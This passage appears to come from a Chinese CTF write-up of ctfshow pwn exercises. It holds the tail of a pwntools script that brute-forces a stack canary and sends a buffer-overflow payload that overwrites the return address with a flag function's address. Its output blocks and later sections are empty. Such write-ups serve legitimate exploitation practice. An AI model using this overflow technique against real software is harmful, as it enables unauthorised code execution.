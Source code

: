 ```python
            print('false!')

            r.close()

            sleep(0.1)

print('Canary:',Canary)

r = remote(ip,port)

r.recvuntil(b'How many bytes do you want to write to the buffer?\n>')

r.sendline(b'1000')

flag_addr = 0x08048586

payload = b'a' * 0x20
payload += Canary
payload += b'a' * 0x10
payload += p32(flag_addr)

r.recvuntil(b'$ ') 

r.send(payload)

r.interactive()
```



最终爆破到的字样为：

```

```

拿到flag：

```

```



## 54. pwn54





## 55. pwn55

[ctfshow pwn入门 pwn55_ctfshow pwn50-CSDN博客](https://blog.csdn.net/jiopkd2/article/details/136099555)




